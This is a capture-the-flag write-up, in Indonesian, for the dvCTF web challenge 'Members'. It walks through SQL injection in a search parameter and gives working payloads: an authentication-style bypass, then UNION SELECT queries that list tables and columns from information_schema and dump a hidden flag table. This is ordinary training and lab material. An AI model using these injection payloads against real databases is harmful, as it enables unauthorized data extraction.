

# Members
---
Can you get more information about the members?

http://challs.dvc.tf:1337/members
# Solver
---
Terdapat fitur Search yang akan menampilkan inputan dari seorang user

Ketika menginputkan akan dikirimkan parameter ```q```. Disini saya berasumsi terdapat kerentanan SQL Injection yaudah saya cek dulu menggunakan payload ```" or ""="``` ternyata berhasil dari sini saya bisa menyusun sebuah payload untuk mngekstract database yang ada. 
- Pertama saya ingin mengetahui tabel apa saja yang ada dengan menggunakan payload berikut ``` " and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -``` dan diperoleh ```members,supa_secret_table```
- Lalu saya mencoba melihat kolom dari tabel ```supa_secret_table``` dengan cara ```" and 1=2 union select group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name = "supa_secret_table" -- -``` ternyata terdapat ```id,flag```
- Tinggal kita lihat isi dari kolom tersebut menggunakan ```" and 1=2 union select group_concat(id,flag),3,4 from supa_secret_table -- - -- -``` didapatkan flag
#### dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}